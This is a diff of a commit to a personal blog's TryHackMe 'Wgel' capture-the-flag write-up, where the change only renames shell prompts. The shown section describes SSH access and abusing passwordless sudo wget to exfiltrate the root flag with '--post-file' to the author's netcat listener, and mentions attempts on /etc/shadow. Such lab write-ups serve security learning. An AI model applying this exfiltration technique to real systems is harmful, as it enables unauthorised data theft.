

Before and after one commit to therealriyad1/therealriyad1.github.io, a plain HTML site: page 2020/08/07/Wgel-TryHackMe/index.html in a window 1280 px wide. Shown: the part 3040-4570 px from the top of the page, without its empty margins (240-1022 px from the left). Drawn offline with Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
Update index.html

```diff
--- a/2020/08/07/Wgel-TryHackMe/index.html
+++ b/2020/08/07/Wgel-TryHackMe/index.html
@@ -177,21 +177,21 @@
 <figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">ssh -i id_rsa  jessie@<span class="variable">$IP</span></span><br></pre></td></tr></table></figure>
 
 <h3 id="User-Flag"><a href="#User-Flag" class="headerlink" title="User Flag"></a>User Flag</h3><p>The user flag was hidden inside of the “Documents” directory.</p>
-<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line">jessie@CorpOne:~$ ls</span><br><span class="line">Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos</span><br><span class="line">jessie@CorpOne:~$ <span class="built_in">cd</span> Desktop/</span><br><span class="line">jessie@CorpOne:~/Desktop$ ls</span><br><span class="line">jessie@CorpOne:~/Desktop$ <span class="built_in">cd</span> ..</span><br><span class="line">jessie@CorpOne:~$ <span class="built_in">cd</span> Documents/</span><br><span class="line">jessie@CorpOne:~/Documents$ ls</span><br><span class="line">user_flag.txt</span><br><span class="line">jessie@CorpOne:~/Documents$ cat user_flag.txt</span><br><span class="line">USER_FLAG</span><br></pre></td></tr></table></figure>
+<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line">therealriyad@ubuntu:~▶ ls</span><br><span class="line">Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos</span><br><span class="line">therealriyad@ubuntu:~▶ <span class="built_in">cd</span> Desktop/</span><br><span class="line">therealriyad@ubuntu:~▶~/Desktop$ ls</span><br><span class="line">therealriyad@ubuntu:~▶~/Desktop$ <span class="built_in">cd</span> ..</span><br><span class="line">therealriyad@ubuntu:~▶ <span class="built_in">cd</span> Documents/</span><br><span class="line">therealriyad@ubuntu:~▶~/Documents$ ls</span><br><span class="line">user_flag.txt</span><br><span class="line">therealriyad@ubuntu:~▶~/Documents$ cat user_flag.txt</span><br><span class="line">USER_FLAG</span><br></pre></td></tr></table></figure>
 
 <h2 id="Post-Exploitation-amp-Getting-Root"><a href="#Post-Exploitation-amp-Getting-Root" class="headerlink" title="Post Exploitation &amp; Getting Root"></a>Post Exploitation &amp; Getting Root</h2><p>Before uploading linpeas or anything else I fancied, I just had a look at our sudo permissions.</p>
-<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">jessie@CorpOne:~&#x2F;Documents$ sudo -l</span><br><span class="line">Matching Defaults entries for jessie on CorpOne:</span><br><span class="line">    env_reset, mail_badpass, secure_path&#x3D;&#x2F;usr&#x2F;local&#x2F;sbin\:&#x2F;usr&#x2F;local&#x2F;bin\:&#x2F;usr&#x2F;sbin\:&#x2F;usr&#x2F;bin\:&#x2F;sbin\:&#x2F;bin\:&#x2F;snap&#x2F;bin</span><br><span class="line"></span><br><span class="line">User jessie may run the following commands on CorpOne:</span><br><span class="line">    (ALL : ALL) ALL</span><br><span class="line">    (root) NOPASSWD: &#x2F;usr&#x2F;bin&#x2F;wget</span><br></pre></td></tr></table></figure>
+<figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">therealriyad@ubuntu:~▶~&#x2F;Documents$ sudo -l</span><br><span class="line">Matching Defaults entries for jessie on CorpOne:</span><br><span class="line">    env_reset, mail_badpass, secure_path&#x3D;&#x2F;usr&#x2F;local&#x2F;sbin\:&#x2F;usr&#x2F;local&#x2F;bin\:&#x2F;usr&#x2F;sbin\:&#x2F;usr&#x2F;bin\:&#x2F;sbin\:&#x2F;bin\:&#x2F;snap&#x2F;bin</span><br><span class="line"></span><br><span class="line">User jessie may run the following commands on CorpOne:</span><br><span class="line">    (ALL : ALL) ALL</span><br><span class="line">    (root) NOPASSWD: &#x2F;usr&#x2F;bin&#x2F;wget</span><br></pre></td></tr></table></figure>
 
 <p>Interesting, apparently we can run <strong>wget</strong> as root without a password. So as always I had a look at <a href="https://gtfobins.github.io/" target="_blank" rel="noopener">GTFOBins</a> and found <a href="https://gtfobins.github.io/gtfobins/wget/" target="_blank" rel="noopener">this</a> for wget.</p>
 <h3 id="Root-Flag"><a href="#Root-Flag" class="headerlink" title="Root Flag"></a>Root Flag</h3><p>It seems like we can download files to another machine. We can use that knowledge to directly exfiltrate the root flag.<br>(Trust me it took me ages to figure that one out. I first tried to download /etc/shadow and simliar.)</p>
 <p>So on my machine I listened for incoming connections on port 80 and stored the output in a file called “root_flag.txt”:</p>
-<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">root@hades      :~/ctf/thm/wgel<span class="comment"># nc -lnvp 80 &gt; root_flag.txt</span></span><br><span class="line">Ncat: Version 7.80 ( https://nmap.org/ncat )</span><br><span class="line">Ncat: Listening on :::80</span><br><span class="line">Ncat: Listening on 0.0.0.0:80</span><br><span class="line">Ncat: Connection from 10.10.54.255.</span><br><span class="line">Ncat: Connection from 10.10.54.255:36442.</span><br></pre></td></tr></table></figure>
+<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">root@hades~▶      :~/ctf/thm/wgel<span class="comment"># nc -lnvp 80 &gt; root_flag.txt</span></span><br><span class="line">Ncat: Version 7.80 ( https://nmap.org/ncat )</span><br><span class="line">Ncat: Listening on :::80</span><br><span class="line">Ncat: Listening on 0.0.0.0:80</span><br><span class="line">Ncat: Connection from 10.10.54.255.</span><br><span class="line">Ncat: Connection from 10.10.54.255:36442.</span><br></pre></td></tr></table></figure>
 
 <p>On the target machine I used wget with the “–post-file” flag to send the root flag to my machine.</p>
-<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">jessie@CorpOne:~/Documents$ sudo /usr/bin/wget --post-file=/root/root_flag.txt <span class="variable">$YOUR_IP</span></span><br><span class="line">--2020-08-07 18:11:21--  http://<span class="variable">$YOUR_IP</span>/</span><br><span class="line">Connecting to <span class="variable">$YOUR_IP</span>:80... connected.</span><br><span class="line">HTTP request sent, awaiting response...</span><br></pre></td></tr></table></figure>
+<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">therealriyad@ubuntu:~▶~/Documents$ sudo /usr/bin/wget --post-file=/root/root_flag.txt <span class="variable">$YOUR_IP</span></span><br><span class="line">--2020-08-07 18:11:21--  http://<span class="variable">$YOUR_IP</span>/</span><br><span class="line">Connecting to <span class="variable">$YOUR_IP</span>:80... connected.</span><br><span class="line">HTTP request sent, awaiting response...</span><br></pre></td></tr></table></figure>
 
 <p>You should now be able to cat out the root flag in the “root_flag.txt” file.</p>
-<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">root@hades:~/ctf/thm/wgel<span class="comment"># cat root_flag.txt</span></span><br><span class="line">ROOT_FLAG</span><br></pre></td></tr></table></figure>
+<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">root@hades:~▶~/ctf/thm/wgel<span class="comment"># cat root_flag.txt</span></span><br><span class="line">ROOT_FLAG</span><br></pre></td></tr></table></figure>
 
 <h2 id="The-End"><a href="#The-End" class="headerlink" title="The End"></a>The End</h2><p>And there you have it! I hope you had fun, I know I did 🦄</p>
 
```
